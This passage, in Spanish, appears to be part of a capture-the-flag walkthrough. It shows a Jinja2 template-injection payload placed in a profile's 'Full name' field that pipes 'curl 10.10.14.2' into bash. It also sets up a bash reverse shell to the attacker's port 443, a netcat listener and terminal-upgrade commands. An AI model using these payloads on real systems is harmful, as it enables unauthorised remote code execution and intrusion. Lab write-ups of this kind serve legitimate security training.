 ## User
Ahora si podemos hacer una ReverShell a nuestra maquina de atacante
Creamos un archivo .html en nuestra maquina de atacante
```bash
❯ nano index.html
	#!/bin/bash
	bash -i >& /dev/tcp/10.10.14.2/443 0>&1

	# IP = IP de atacante
	# 443 = Puerto a usar
```

Compartiremos el index.html
```bash
❯ python3 -m http.server 80                 # Nos montamos un servidor http 80
```

```bash
❯ nc -nlvp 443                              # Nos ponemos en escucha por el puert 443
```

Con este comando podriamos hacer **curl** que se interpretara con bash a nuestra IP desde el contenedor hacia nuestra maquina victima. Este se coloca en la parte de **Full name** en Settings
```bash 
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl 10.10.14.2 | bash').read() }}
```
Ganamos acceso a la maquina pero al contenedor.

Tratamiento de la pseudo-consola
```bash
❯ python3 -c ‘import pty;pty.spawn(“/bin/bash”)’         # Para remplazar el comando de 'Script' por si no lo acepta la consola

❯ Script /dev/null -c bash
❯ Ctrl + z
❯ stty raw -echo; fg
❯ reset xterm

# Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
❯ echo $SHELL                                            # Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
❯ export SHELL=bash o ❯ export SHELL=/bin/bash           # Hacemos que shell ahora valga bash
❯ export TERM=xterm                                      # Para poder hacer Ctrl +c y Ctrl + l (l=ele)

# Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
❯ stty size                                              # Miramos las dimensiones de la consola
❯ stty rows 51 columns 189                               # Modificamos las dimensiones de la consola Vim/Nano
```

```bash
❯ whoami                                     # Miramos el nombre del usuario
```
